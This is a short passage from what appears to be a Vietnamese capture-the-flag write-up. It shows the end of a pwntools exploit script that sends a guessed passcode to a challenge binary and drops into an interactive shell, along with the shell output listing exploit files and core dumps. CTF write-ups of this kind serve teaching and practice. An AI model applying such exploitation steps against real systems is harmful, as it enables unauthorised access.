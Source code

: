 ```
print(hex(passcode))

p.sendlineafter(b'> ', str(2))
p.sendlineafter(b'>> ', str(passcode))

p.interactive()
```

Tiến hành chạy script vài lần để cho giá trị passcode được gen ra, sau vài lần thì ta sẽ lấy được shell

```
[*] Switching to interactive mode
[+] WINNNN!
$ ls
chall         core.1114506  core.1119813  core.1191150  exp2.py
core.1109287  core.1118246  core.1132640  core.1191217  note
core.1110513  core.1118276  core.1132710  exp.py
$ cat flag.txt
cat: flag.txt: No such file or directory
```
